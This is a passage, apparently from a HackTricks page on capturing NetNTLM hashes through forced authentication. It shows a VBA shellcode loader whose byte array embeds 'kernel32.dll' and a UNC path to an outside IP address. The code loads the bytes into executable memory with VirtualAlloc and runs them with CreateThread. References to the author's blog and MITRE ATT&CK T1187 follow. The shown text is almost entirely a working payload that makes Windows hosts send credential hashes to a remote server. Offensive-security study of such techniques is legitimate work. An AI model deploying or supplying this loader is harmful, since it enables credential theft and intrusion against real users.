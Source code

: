 ```vba
&H9c, &H33, &Hc0, &H5f, &H5e, &H5b, &Hc9, &Hc3, &H8b, &H4d, &Hfc, &H8b, &H44, &H33, &H24, &H8d, &H04, &H48, &H0f, &Hb7, _
&H0c, &H30, &H8b, &H44, &H33, &H1c, &H8d, &H04, &H88, &H8b, &H04, &H30, &H03, &Hc6, &Heb, &Hdf, &H21, &H05, &H05, &H05, _
&H50, &H05, &H05, &H05, &H6b, &H65, &H72, &H6e, &H65, &H6c, &H33, &H32, &H2e, &H64, &H6c, &H6c, &H05, &H2f, &H2f, &H33, _
&H35, &H2e, &H31, &H36, &H34, &H2e, &H31, &H35, &H33, &H2e, &H32, &H32, &H34, &H2f, &H61, &H61, &H05)

scLocation = DX.VirtualAlloc(0, UBound(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)

For i =LBound(shellcode) to UBound(shellcode)
    DX.NumPut shellcode(i),scLocation,i
Next

thread = DX.CreateThread (0,0,scLocation,0,0)
```

[https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vbs](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vbs)

There might be many other ways in Windows. You never know! 🙂

## References

* [**https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/**](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
* [https://attack.mitre.org/techniques/T1187/](https://attack.mitre.org/techniques/T1187/)

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

